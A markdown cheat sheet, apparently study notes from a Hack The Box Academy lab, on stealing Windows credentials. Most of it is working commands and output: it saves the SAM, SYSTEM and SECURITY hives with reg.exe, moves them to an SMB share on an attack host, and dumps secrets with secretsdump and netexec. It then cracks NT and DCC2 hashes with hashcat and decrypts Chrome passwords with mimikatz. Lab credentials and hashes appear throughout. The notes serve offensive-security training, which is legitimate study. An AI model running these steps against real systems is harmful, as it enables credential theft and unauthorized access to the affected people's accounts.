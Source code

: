 
# YOU MUST BE ADMIN/SYSTEM
# cheatsheet

  `reg.exe` to save copies of the registry hives:
```cmd-session
> reg.exe save hklm\sam C:\sam.save


> reg.exe save hklm\system C:\system.save

> reg.exe save hklm\security C:\security.save
```

 copy to VM:
- create a smb share on attacking vm
```shell-session
$ impacket-smbserver -smb2support compdata /home/demise/mountshare
```

- move hives to share:
```cmd
C:\> move sam.save \\10.10.15.16\compdata
      

 move security.save \\10.10.15.16\compdata
       

 move system.save \\10.10.15.16\compdata
     
```

```shell-session
$ ls

sam.save  security.save  system.save
```

### dump LSA  hashes remotely
```shell-session
$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
### dump SAM  hashes remotely
```shell-session
$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
### Dump Locally  with impacket
```
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

dumping format:
```shell-session
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
```
copy  `NT `hash to a file using nano 
#### crack NT hash with hashcat 

```
$ hashcat -m 1000 c02478537b9727d391bc80011c2e2321 /usr/share/wordlists/rockyou.txt  -D 1 -O     
```


### cracking DCC2 Hash (from Security hive) 

hashed copies of network credential hashes. An example is:
```
inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
```
The Hashcat mode for cracking DCC2 hashes is `2100`.
```shell-session
$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

#### DPAPI Decryption
DPAPI  credentials can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).`
```POWERSHELL
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * using CryptUnprotectData API
> AES Key is: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
Username: bob
 * using BCrypt with AES-256-GCM
Password: April2025!
```

This tells us how to interpret the output and which hashes we can attempt to crack.

`SECURITY`  -> cached domain hashes
# Overview
With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline.

There are three registry hives we can copy if we have` local administrative` access to a target system, each serving a specific purpose when it comes to dumping and cracking password hashes. A brief description of each is provided in the table below:

| Registry Hive   | Description                                                                                                                                                       |
| --------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `HKLM\SAM`      | Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.                                        |
| `HKLM\SYSTEM`   | Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.                                                |
| `HKLM\SECURITY` | Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more. |
|                 |                                                                                                                                                                   |

# hash differences

| Feature    | SAM (SAM + SYSTEM)            | LSA Secrets (SECURITY)                            |
| ---------- | ----------------------------- | ------------------------------------------------- |
| Focus      | Local account password hashes | Cached credentials & secrets (domain creds, etc.) |
| Format     | NTLM hashes                   | Plaintext or encrypted strings                    |
| Common Use | Crack local user passwords    |                                                   |
We can back up these hives using the `reg.exe` utility.
#### Using reg.exe to copy registry hives

By launching `cmd.exe` with administrative privileges, we can use `reg.exe` to save copies of the registry hives. Run the following commands:

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save


> reg.exe save hklm\system C:\system.save

> reg.exe save hklm\security C:\security.save
```

# copying to vm
To create the share, we simply run `smbserver.py -smb2support`, specify a name for the share (e.g., `CompData`), and point to the local directory on our attack host where the hive copies will be stored (e.g., `/home/ltnbob/Documents`

### DUMPING HASHES
the first step `secretsdump` performs is retrieving the `system bootkey` before proceeding to dump the `local SAM hashes`. This is necessary because the bootkey is used to encrypt and decrypt the SAM database. Without it, the hashes cannot be decrypted — which is why having copies of the relevant registry hives, as discussed earlier, is crucial.
```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

# DCC2 HASH
This type of hash is much more difficult to crack than an NT hash, as it uses PBKDF2. Additionally, it cannot be used for lateral movement with techniques like Pass-the-Hash (which we will cover later). The Hashcat mode for cracking DCC2 hashes is `2100`.
DCC2 hashes is approximately `800 times slower` to crack
# DPAPI

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).

```POWERSHELL
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * using CryptUnprotectData API
> AES Key is: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
Username: bob
 * using BCrypt with AES-256-GCM
Password: April2025!
```

## Remote dumping & LSA secrets considerations

With access to credentials that have `local administrator privileges`, it is also possible to target LSA secrets over the network. This may allow us to extract credentials from running services, scheduled tasks, or applications that store passwords using LSA secrets.
```shell-session
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
[+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a<SNIP>
```
